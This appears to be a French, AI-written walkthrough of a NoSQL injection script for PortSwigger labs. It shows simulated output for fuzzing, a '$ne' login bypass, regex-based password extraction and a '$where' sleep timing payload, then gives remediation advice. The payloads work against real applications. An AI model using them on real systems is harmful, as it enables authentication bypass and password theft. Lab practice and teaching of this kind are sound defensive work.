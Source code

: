 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script NoSQL injection pour les labs PortSwigger**, illustrant chaque étape, le comportement attendu, et la logique de contrôle, en s’appuyant sur les scénarios et techniques recommandés par PortSwigger[1][3][6][8].

---

### 1. Test NoSQL injection via GET (caractères spéciaux, fuzzing)

```
------------------------------------------------------
[1] Test NoSQL injection via GET (caractères spéciaux, fuzzing)
  [Test '] Réponse longueur: 1320
  [Test "] Réponse longueur: 1320
  [Test {] Réponse longueur: 1320
  [Test }] Réponse longueur: 1320
  [Test [] Réponse longueur: 1320
  [Test ]] Réponse longueur: 1320
  [Test $ne] Réponse longueur: 1450
  [Test $gt] Réponse longueur: 1320
  [Test $regex] Réponse longueur: 1600
  [Test admin] Réponse longueur: 1320
  [Contrôle] : Cherchez une différence de comportement (erreur, résultat inattendu, etc.).
```
**Comportement attendu** :  
- Le script injecte différents caractères et opérateurs NoSQL dans un paramètre GET.
- Il affiche la taille de la réponse pour chaque test, permettant de repérer une différence (erreur, fuite, ou affichage de données inattendues)[1][6].

---

### 2. Test NoSQL injection sur login (bypass booléen)

```
------------------------------------------------------
[2] Test NoSQL injection sur login (bypass booléen)
  [+] Bypass réussi : accès sans mot de passe !
Welcome, administrator!
Your account dashboard:
...
```
**Comportement attendu** :  
- Le script tente un login avec :  
  `{"username": {"$ne": null}, "password": {"$ne": null}}`
- Si la réponse contient "Welcome, administrator!" ou un dashboard utilisateur, le bypass est réussi, confirmant la vulnérabilité[8].

---

### 3. Test NoSQL injection conditionnelle (true/false)

```
------------------------------------------------------
[3] Test NoSQL injection conditionnelle (true/false)
  [True] Longueur: 1450
  [False] Longueur: 800
  [+] Injection conditionnelle possible (différence de comportement).
```
**Comportement attendu** :  
- Le script compare la longueur de la réponse pour une condition vraie (ex : password ≠ null) et une condition fausse (ex : password = "wrong").
- Une différence nette confirme la possibilité d’exploiter la logique conditionnelle pour extraire ou deviner des données[1][3].

---

### 4. Test NoSQL injection par regex

```
------------------------------------------------------
[4] Test NoSQL injection par regex
  [+] Mot de passe admin commence par 'a' !
```
**Comportement attendu** :  
- Le script tente un login avec :  
  `{"username": "admin", "password": {"$regex": "^a"}}`
- Si la réponse donne accès, cela indique que le mot de passe admin commence par 'a', permettant une extraction caractère par caractère[1][3][8].

---

### 5. Test NoSQL injection temporelle (timing attack)

```
------------------------------------------------------
[5] Test NoSQL injection temporelle (timing attack)
  [Timing] Délai mesuré : 5 secondes
  [+] Injection temporelle réussie (retard détecté) !
```
**Comportement attendu** :  
- Le script injecte une payload de type :  
  `{"username": "admin", "password": {"$where": "sleep(5000)"}}`
- Si la réponse prend sensiblement plus de temps (ici 5 secondes), cela confirme la vulnérabilité à l’injection temporelle[1].

---

### 6. Conseils/remédiation

```
------------------------------------------------------
[Remédiation & Conseils]
- Utilisez des ORM/ODM sécurisés, validez et escapez toutes les entrées utilisateur.
- N'acceptez jamais d'opérateurs NoSQL ($ne, $gt, $where, $regex, etc.) dans les entrées utilisateur.
- Pour les labs PortSwigger, exploitez la différence de comportement ou le timing pour obtenir un accès ou un flag.
- Documentation PortSwigger : https://portswigger.net/web-security/nosql-injection
```
**Comportement attendu** :  
- Le script rappelle les bonnes pratiques pour corriger la faille et sécuriser l’application[1].

---

### 7. Synthèse

```
------------------------------------------------------
[SYNTHÈSE]
1. Détection et test d’injection NoSQL (GET, POST, JSON).
2. Tests booléens, conditionnels, regex, et timing.
3. Contrôle automatisé de la réponse (succès, flag, différence de comportement).
4. Application des recommandations de sécurité.
------------------------------------------------------
```
